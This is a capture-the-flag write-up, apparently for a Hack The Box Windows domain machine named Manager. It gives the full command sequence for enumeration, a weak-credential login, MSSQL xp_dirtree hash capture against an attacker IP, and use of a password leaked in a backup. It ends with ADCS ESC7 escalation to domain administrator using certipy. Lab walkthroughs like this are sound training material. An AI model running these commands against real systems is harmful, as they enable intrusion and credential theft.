 #InProgress 
```IP

```
# Enumeration

## HTTP 80
nothing interesting after fuzzing and analyzing source code
## Kerberos 88
kerbrute user enumeration:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229104001.png?raw=true)
## SMB
```
nxc smb 10.10.11.236 -u 'test' -p '' --shares
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229104137.png?raw=true)
```
nxc smb 10.10.11.236 -u 'test' -p '' --rid-brute 3000
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229104147.png?raw=true)
We have no interesting shares apparently.
After some trial and error, I discovered that we get a hit with `operator` if we make the user list without capital letters:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229112128.png?raw=true)
```
operator:operator
```

## LDAP
operator is a hit too if we execute nxc against ldap protocol:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229113313.png?raw=true)
However ldapsearch doesn't seem capable of retrieving much data:
```
ldapsearch -H ldap://dc01.manager.htb -x -D 'operator@manager.htb' -w 'operator' -b "DC=manager,DC=com"
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229113253.png?raw=true)
So we will use ldapdomaindump:
```
ldapdomaindump -u management.htb\\operator -p 'operator' 10.10.11.236 -o ./
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229113421.png?raw=true)
We see that raven is apparently the only user capable of connecting remotely. Let's try bruteforcing his password:
```
nxc winrm 10.10.11.236 -u raven -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding
```
But we have no success.
## MSSQL
We can access the database with operator:operator
```
impacket-mssqlclient Operator@manager.htb -windows-auth
```
cmdshell is disabled, but we can execute xp_dirtree:
```
xp_dirtree '\\10.10.14.9\test'
```
And we get a manager hash, that we can't crack neither with john or hashcat.

# Exploitation
In MSSQL, we can also enumerate the C directories in the target machine with dirtree. This path will lead us to a old backup of the website inside the inetpub/wwwroot directory:
```
xp_dirtree C:\inetpub\wwwroot
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229115042.png?raw=true)
We should be able to download it with a browser. Once downloaded, I create a new folder in my local machine and unzip its contents there:
```
unzip website-backup-27-07-23-old.zip -d backup-old
```
Inside `.old-conf.xml` we find a password for user raven:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229115425.png?raw=true)
Let's try our credentials on winrm:
```
R4v3nBe5tD3veloP3r!123
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229115655.png?raw=true)
We get access to raven and its user.txt flag.
# PrivEsc

## Manual
After some unsuccessful manual enumeration, knowing that it is a windows domain, we are left with certificates (ADCS) and Bloodhound.
```
certipy-ad find -vulnerable -stdout -u raven@10.10.11.236 -p 'R4v3nBe5tD3veloP3r!123'
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229122653.png?raw=true)
We can see how to escalate this vulnerability in the official certipy page:
https://github.com/ly4k/Certipy?tab=readme-ov-file#esc7
```
certipy-ad ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```
```
certipy-ad ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```
```
certipy-ad req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target manager.htb -template SubCA -upn administrator@manager.htb
```
```
certipy-ad ca -ca manager-DC01-CA -issue-request 20 -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```
```
certipy-ad req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target manager.htb -retrieve 20
```
We can now retrieve an NTLM hash with our administrator.pfx:
```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.236
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229125317.png?raw=true)
We get an error message because the target machine date and our VM date differs too much. We can synchronize the dates with ntpdate tool:
```
sudo ntpdate 10.10.11.236
```
And now we can use evil-winrm to get an administrator shell and the root flag:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229125417.png?raw=true)

## Automated

### Peass
### Mimikatz

# Lateral Movement
